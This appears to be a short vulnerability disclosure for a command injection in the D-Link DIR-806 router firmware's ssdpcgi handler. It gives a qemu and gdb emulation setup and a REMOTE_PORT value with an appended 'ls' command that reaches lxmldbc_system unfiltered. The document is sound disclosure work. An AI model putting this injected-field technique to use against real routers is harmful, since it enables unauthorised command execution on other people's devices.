


# D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection(parameter of REMOTE_PORT)

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 

## Debugging verification
qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT="8888;ls;" -E HTTP_ST="upnp:rootdevice" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the REMOTE_PORT parameter as REMOTE_PORT="8888;ls;", The results are shown in the figure below: 

No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute
